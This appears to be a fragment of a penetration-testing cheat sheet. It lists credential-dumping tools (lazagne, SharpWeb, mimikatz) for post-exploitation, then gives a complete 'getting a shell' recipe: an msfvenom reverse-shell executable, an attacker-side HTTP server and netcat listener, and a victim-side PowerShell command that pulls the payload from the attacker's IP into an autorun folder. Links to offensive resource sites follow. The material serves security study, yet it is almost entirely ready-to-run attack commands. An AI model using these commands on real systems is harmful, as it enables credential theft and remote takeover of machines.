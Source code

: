- POST exploitation 

```  
lazagne.exe all
SharpWeb.exe
mimikatz.exe
```

- Getting a shell

```  
# Attacker
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > program.exe
sudo python -m SimpleHTTPServer 80
sudo nc -lvp <PORT>

# Victim
cd C:\Program Files\Autorun Program\
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/program.exe', '.\program.exe')
```


**useful links**
1. https://www.revshells.com/
2. https://gtfobins.github.io/
3. https://pentest.ws/
4. https://www.exploit-db.com/
5. https://github.com/swisskyrepo/PayloadsAllTheThings
6. https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.htmlhttps://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html
  
  
`Go to prose.io to Edit this cheatsheet`
